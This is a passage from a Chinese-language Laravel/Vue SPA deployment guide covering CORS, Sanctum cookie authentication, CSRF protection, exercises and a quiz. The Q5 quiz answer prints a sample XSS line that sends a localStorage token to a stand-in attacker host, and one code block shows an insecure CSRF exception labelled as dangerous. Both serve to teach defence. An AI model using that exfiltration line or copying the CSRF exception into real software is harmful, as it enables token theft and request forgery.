>      → ★ 應該設到你控制的最小範圍：.example.gov.tw
> ```

> [!warning] CSRF 防護 ★★
> ```
> ★★ 用 Cookie 認證時【必須】有 CSRF 防護：
>   · Laravel 的 VerifyCsrfToken middleware（★ web 路由預設有）
>   · Sanctum SPA 模式會處理（★ 前端要先呼叫 /sanctum/csrf-cookie）
>   · SameSite=Lax 是額外的一層（★ 不是唯一防線）
>
> ★★ 用 Bearer Token 時【不需要】CSRF 防護
>   → 因為 token 不會被瀏覽器自動附加
>   → ★ 但要確保 token 不在 URL 中（會出現在日誌與 Referer）
>
> ★★★ 常見錯誤：
>   為了「解決 419 錯誤」而把 API 路由加入 CSRF 例外
>   → ★★ 若那些路由用 cookie 認證 → 【CSRF 防護就沒了】
> ```

```php
<?php
// ❌ 危險的「解法」
// bootstrap/app.php
$middleware->validateCsrfTokens(except: [
    'api/*',           // ★★ 若 api/* 用 cookie 認證 → CSRF 防護消失
]);

// ✅ 正確：讓前端正確處理 CSRF token
// → 先呼叫 /sanctum/csrf-cookie
// → axios 自動從 XSRF-TOKEN cookie 讀出放進 X-XSRF-TOKEN 標頭
```

---

## 速查表

### ★★★ 三種拓撲

```
★★ ① 同源子路徑   app.gov.tw/ + app.gov.tw/api/
     ✓ 無 CORS  ✓ Cookie 天然可用  ✓ 一張憑證   ← 推薦

   ② 子網域       app.gov.tw + api.gov.tw
     ★ 需 CORS  ★★★ SESSION_DOMAIN=.example.gov.tw

   ③ 跨網域       完全不同的網域
     ★★ 需 CORS  ★★ Cookie 極困難 → 用 Bearer Token
```

### ★★★ 認證方式

```
同源 / 同 eTLD+1  → ★★ Sanctum Cookie（HttpOnly，最安全）
手機 App / 第一方 → ★ Sanctum Token（存記憶體，不是 localStorage）
第三方應用        → OAuth2 (Passport)
```

```
★★★ 不要把 token 存 localStorage（XSS 就能偷走）
```

### 子網域的關鍵設定

```dotenv
SESSION_DOMAIN=.example.gov.tw        # ★★★ 前導點
SESSION_SECURE_COOKIE=true
SESSION_SAME_SITE=lax
SANCTUM_STATEFUL_DOMAINS=app.example.gov.tw
FRONTEND_URL=https://app.example.gov.tw
```

```php
// config/cors.php
'allowed_origins' => [env('FRONTEND_URL')],   // ★★★ 不能是 '*'
'supports_credentials' => true,                // ★★ cookie 認證必須
'max_age' => 86400,                            // ★ 減少 preflight
```

```typescript
axios.create({ withCredentials: true })       // ★★★ 必須
```

### ★★ 八個錯誤組合

```
① 跨網域 + SESSION_DOMAIN 沒設      → 登入後仍未登入
② allowed_origins '*' + credentials → ★★★ 瀏覽器拒絕
③ withCredentials: false + Cookie   → 一直 401
④ SECURE_COOKIE=true + HTTP         → cookie 不被設定
⑤ 缺 HTTPS 三件套 + SECURE_COOKIE   → 同上
⑥ STATEFUL_DOMAINS 沒含前端         → 一直 401
⑦ SPA fallback 在 /api/ 之前        → API 回傳 HTML
⑧ localStorage 存 JWT               → ★★★ XSS 偷走
```

### 排查

```bash
# ★★ cookie 的 domain 與屬性
curl -sI https://api/sanctum/csrf-cookie | grep -i set-cookie

# ★★ CORS preflight
curl -sI -X OPTIONS https://api/api/user \
  -H "Origin: https://app.example.gov.tw" \
  -H 'Access-Control-Request-Method: GET' | grep -i access-control

# ★ Laravel 設定
php artisan config:show session cors sanctum

# ★★ location 順序
sudo nginx -T | sed -n '/server_name app/,/^}/p' | grep location

check-spa-arch
```

### 機關內部系統的建議 ★★

```
① 拓撲   同源子路徑
② 認證   Sanctum SPA（HttpOnly Cookie）
③ 前端   Vue SPA（不用 SSR）
④ 網路   allow 10.0.0.0/8; deny all;
⑤ 憑證   內部 CA
```

---

## 練習題

> [!question]- 練習 1：三種拓撲的實測
> 分別部署三種架構並記錄設定的差異：
> 1. 同源子路徑 → 需要改幾個地方？
> 2. 子網域 → **額外需要哪些設定？**
> 3. 跨網域（用 `--resolve` 模擬）→ cookie 能用嗎？
> 4. 每一種都測登入流程
> 5. **統計每一種的「可能出錯的點」數量**

> [!question]- 練習 2：`SESSION_DOMAIN` ★★★
> 1. 部署子網域架構，**不設 `SESSION_DOMAIN`**
> 2. 登入 → **成功嗎？** 前端的 `/api/user` 呢？
> 3. `curl -sI /sanctum/csrf-cookie | grep -i set-cookie` → **domain 是什麼？**
> 4. 設 `SESSION_DOMAIN=example.gov.tw`（**沒有點**）→ 再測
> 5. 設 `.example.gov.tw`（**有點**）→ 再測
> 6. **記錄三種的 cookie domain 與行為**

> [!question]- 練習 3：CORS 的錯誤組合 ★★★
> 1. 設 `'allowed_origins' => ['*']` + `'supports_credentials' => true`
> 2. 前端發一個帶 credentials 的請求 → **Console 的錯誤訊息是什麼？**
> 3. 改成明確列出來源 → 成功
> 4. **拿掉 `withCredentials: true`** → 又壞了嗎？為什麼？
> 5. 把 `max_age` 從 0 改成 86400 → **Network 面板的 OPTIONS 請求變少了嗎？**

> [!question]- 練習 4：Token 儲存的風險 ★★★
> **★ 在測試環境**
> 1. 把 token 存在 `localStorage`
> 2. **模擬 XSS**：在 Console 執行 `localStorage.getItem('token')`
> 3. **拿到 token 了嗎？** 用它在另一個瀏覽器呼叫 API → 成功嗎？
> 4. 改用 HttpOnly cookie → 在 Console 執行 `document.cookie`
> 5. **看得到 session cookie 嗎？**
> 6. **寫出兩種方式的風險比較**

> [!question]- 練習 5：完整的架構檢查
> 1. 部署 `check-spa-arch` 腳本
> 2. 對你的環境執行 → **有幾項 ✗？**
> 3. **故意製造每一種錯誤組合**，看腳本能不能抓到
> 4. 逐一修復
> 5. **把腳本加進部署流程**

---

## 小測驗

Q1. **三種部署拓撲的最大差別是什麼**？

Q2. **為什麼「同源子路徑」是最推薦的**？

Q3. **子網域架構下 `SESSION_DOMAIN` 該設什麼？不設會怎樣**？

Q4. **`allowed_origins: ['*']` + `supports_credentials: true` 為什麼無效**？

Q5. **為什麼不該把 JWT 存在 `localStorage`**？

Q6. **`SANCTUM_STATEFUL_DOMAINS` 的作用是什麼**？

Q7. **Sanctum SPA 認證的登入流程有哪兩步**？

Q8. **用 Cookie 認證與用 Bearer Token，哪個需要 CSRF 防護**？

Q9. **`location ^~ /api/` 為什麼要放在 `location /` 之前**？

Q10. **機關內部管理系統建議用什麼架構**？

> [!question]- 測驗答案
> **Q1.** **最大的差別是「是否需要 CORS」與「Cookie 能不能用」**。
> **同源子路徑**（`app.gov.tw/` + `app.gov.tw/api/`）——
> **完全不需要 CORS**，Cookie 天然可用，只要一張憑證。
> **子網域**（`app.gov.tw` + `api.gov.tw`）——
> **需要 CORS**，Cookie 需要設 `SESSION_DOMAIN=.example.gov.tw` 才能共用。
> **跨網域**（完全不同的可註冊網域）——
> **需要 CORS**，**Cookie 極度困難**（受 SameSite 與第三方 cookie 淘汰影響），
> 實務上應該改用 Bearer Token。
> 複雜度是遞增的，可能出錯的點也是遞增的。
>
> **Q2.** **四個好處**：
> ①**完全不需要 CORS 設定** —— 少掉一整類的問題
> （preflight、credentials、標頭白名單、origin 比對）；
> ②**少一次 preflight 往返** —— 每個非簡單請求省下一次 OPTIONS，**延遲減半**；
> ③**★★★ Cookie 天然同源** ——
> Sanctum 的 SPA 認證直接可用，不用煩惱
> `SameSite` / `SESSION_DOMAIN` / `withCredentials` 的組合；
> ④**只需要一張憑證、一個網域** —— 憑證管理成本減半。
> **代價**：前後端綁在同一個 Nginx server block，
> 無法獨立擴充，也不方便給多個前端共用同一組 API ——
> 但**內部管理系統幾乎不會有這些需求**。
>
> **Q3.** **必須設成 `.example.gov.tw`（★ 有前導點）**。
> **不設（或設 null）的後果**：
> cookie **只對「簽發它的那個網域」有效** ——
> `api.example.gov.tw` 設的 session cookie，
> **`app.example.gov.tw` 完全看不到也不會送出** →
> **登入 API 回傳成功，但前端後續的請求都是未登入狀態**（一直 401）。
> **這是子網域架構最常見的坑**。
> **安全考量**：`.example.gov.tw` 表示**所有子網域都看得到這個 cookie** ——
> 如果有不受信任的子網域（例如使用者可以自訂的），就有風險；
> **絕對不要設成 `.gov.tw`**（會讓所有政府網站都看得到）。
>
> **Q4.** 因為**瀏覽器的 CORS 規範明確禁止這個組合**：
> ```
> Access-Control-Allow-Origin: *
> Access-Control-Allow-Credentials: true
> ```
> 瀏覽器會**直接拒絕**這個回應並在 Console 顯示：
> ```
> The value of the 'Access-Control-Allow-Origin' header in the response
> must not be the wildcard '*' when the request's credentials mode is 'include'.
> ```
> **規範這樣設計的原因**：`*` 表示「任何網站都可以讀取這個回應」，
> 而 credentials 表示「請求會帶上使用者的 cookie」——
> 兩者合起來就是「任何惡意網站都能用使用者的身分讀取你的 API」。
> **正確做法是明確列出來源**：
> `'allowed_origins' => [env('FRONTEND_URL')]`
> —— Laravel 的 CORS middleware 會**動態回傳實際的 Origin**（若在白名單中）。
>
> **Q5.** 因為 **`localStorage` 的內容任何 JavaScript 都讀得到** ——
> **一個 XSS 漏洞就能把 token 偷走**：
> ```javascript
> fetch('https://attacker.com/?t=' + localStorage.getItem('token'));
> ```
> 而且**攻擊者可以在任何地方使用那個 token**
> （不像 cookie 有 `SameSite`、`Secure`、網域限制）。
> **對照 HttpOnly Cookie**：
> **JavaScript 完全讀不到**（`document.cookie` 看不到），
> 所以 XSS 也偷不走；
> 加上 `Secure`（只在 HTTPS 送）與 `SameSite`（防 CSRF），
> 而且**瀏覽器自動管理過期**。
> **如果真的必須用 Token**（手機 App、跨網域）：
> **access token 存在記憶體（JS 變數）**，
> **refresh token 用 HttpOnly cookie** —— 這樣頁面重整後可以重新取得。
>
> **Q6.** **`SANCTUM_STATEFUL_DOMAINS` 告訴 Sanctum「哪些來源的請求要用 session cookie 認證」**。
> Sanctum 有兩種模式：
> **有狀態（stateful）** —— 用 session cookie（給 SPA）；
> **無狀態（stateless）** —— 用 Bearer token（給 App 與 API）。
> Sanctum 的 middleware 會**檢查請求的 `Referer` 或 `Origin` 是否在
> `SANCTUM_STATEFUL_DOMAINS` 中**，
> **是的話才啟用 session 認證**。
> **沒設或設錯的後果**：Sanctum 把前端的請求當成無狀態的 API 呼叫，
> **完全忽略 session cookie**，然後找不到 Bearer token → **一直 401**，
> 而且**登入 API 本身是成功的**，讓人非常困惑。
>
> **Q7.** **兩步**：
> ①**先呼叫 `GET /sanctum/csrf-cookie`** ——
> 這會讓 Laravel 設定 `XSRF-TOKEN` cookie（以及 session cookie）；
> ②**再 POST 到 `/login`** ——
> axios（與大多數的 HTTP client）會**自動從 `XSRF-TOKEN` cookie 讀出值，
> 放進 `X-XSRF-TOKEN` 請求標頭**，通過 Laravel 的 CSRF 驗證。
> ```typescript
> await axios.get('/sanctum/csrf-cookie', { withCredentials: true });
> await api.post('/login', { email, password });
> ```
> **漏掉第一步的症狀**：**419 Page Expired / CSRF token mismatch**。
> 注意兩個請求都要 `withCredentials: true`（跨網域時），
> 而且 `/sanctum/csrf-cookie` 要在 `config/cors.php` 的 `paths` 中。
>
> **Q8.** **用 Cookie 認證「必須」有 CSRF 防護；用 Bearer Token「不需要」**。
> **原因**：**瀏覽器會自動把 cookie 附加到「任何」發往該網域的請求上** ——
> 包含從惡意網站發出的請求（這就是 CSRF）。
> 所以需要一個**攻擊者拿不到的額外憑證**（CSRF token）來證明請求真的來自你的前端。
> **Bearer Token 不會被瀏覽器自動附加** —— 必須由 JavaScript 明確放進標頭，
> 惡意網站的 JS 拿不到你的 token（同源政策），所以沒有 CSRF 風險。
> **★★★ 常見的危險做法**：為了「解決 419 錯誤」而把 `api/*`
> 加進 CSRF 的例外清單 ——
> **如果那些路由是用 cookie 認證的，CSRF 防護就完全消失了**。
> 正確做法是讓前端正確處理 CSRF token。
>
> **Q9.** 因為 **Nginx 的 `location /` 是「匹配所有路徑」的前綴規則**，
> 而 SPA fallback 的 `try_files $uri $uri/ /index.html;`
> 會**把找不到的路徑都回傳 `index.html`**。
> **如果 `/api/` 沒有優先匹配**：
> API 請求（例如 `/api/users`）在檔案系統上找不到對應的檔案 →
> **回傳前端的 `index.html`** →
> 前端收到的是 **HTML 而不是 JSON** →
> `JSON.parse` 失敗，或 axios 報 `Unexpected token '<'`。
> **`^~` 修飾符的作用**：**前綴匹配成功後就停止**，
> 不再檢查正規表示式的 location
> （避免 `/api/x.php` 被 `location ~ \.php$` 搶走）。
> **正確順序**：`^~ /api/` → `^~ /storage/` → `~* ^/assets/` → `= /index.html` → `/`。
>
> **Q10.** **五項建議**：
> ①**拓撲：同源子路徑** ——
> `https://app.example.gov.tw/` 是前端，`/api/` 是後端；
> ②**認證：Sanctum SPA（HttpOnly Cookie）** ——
> 最安全（XSS 偷不走）、有 CSRF 防護、設定最簡單；
> ③**前端：Vue SPA（不用 Nuxt SSR）** ——
> 內部系統**不需要 SEO**，SPA 的部署簡單很多（不用長駐 Node 程序）；
> ④**網路：內網限制**（`allow 10.0.0.0/8; deny all;`）——
> 這是最有效的一道防線；
> ⑤**憑證：內部 CA 簽發**（配合根憑證派送）或公信 CA。
> **什麼時候才需要更複雜的架構**：
> 同一組 API 要給多個前端用（→ 子網域）、
> 有手機 App（→ 加 Sanctum Token）、
> 開放給其他機關（→ OAuth2）、
> 需要 SEO 的對外網站（→ Nuxt SSG/SSR）。

---

## 延伸閱讀

- [[130-01-05-02-guide-Laravel-API後端部署]] — API 後端的專屬設定
- [[130-01-05-03-guide-前後端-跨網域與CORS設定]] — CORS 的完整說明
- [[130-01-05-04-guide-認證串接-Sanctum與JWT]] — 認證的實作細節
- [[130-01-05-05-guide-Nginx-前後端流量分流設定]] — Nginx 的分流設定
- [[130-01-05-06-guide-Vue-Laravel完整部署實戰]] — 完整的實戰範例
- [[130-01-01-guide-部署-部署共通觀念]] — LXMP 架構全貌
